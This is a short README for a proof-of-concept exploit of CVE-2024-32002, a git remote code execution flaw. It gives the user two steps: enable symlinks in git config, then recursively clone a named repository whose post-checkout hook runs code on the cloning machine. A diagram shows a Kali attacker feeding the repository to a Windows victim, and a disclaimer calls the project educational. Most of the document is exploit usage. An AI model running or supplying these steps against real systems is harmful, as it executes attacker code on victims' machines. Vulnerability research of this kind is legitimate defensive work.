 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```

# Attack Scenario
kali(192.168.216.129) --Give remote repository address--> Win(192.168.216.130)

kali(192.168.216.129) <--Git clone && hook script(post-checkout) execution-- Win(192.168.216.130)

# Disclaimer
This repository is not intended to be git clone RCE exploit to CVE-2024-32002. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.
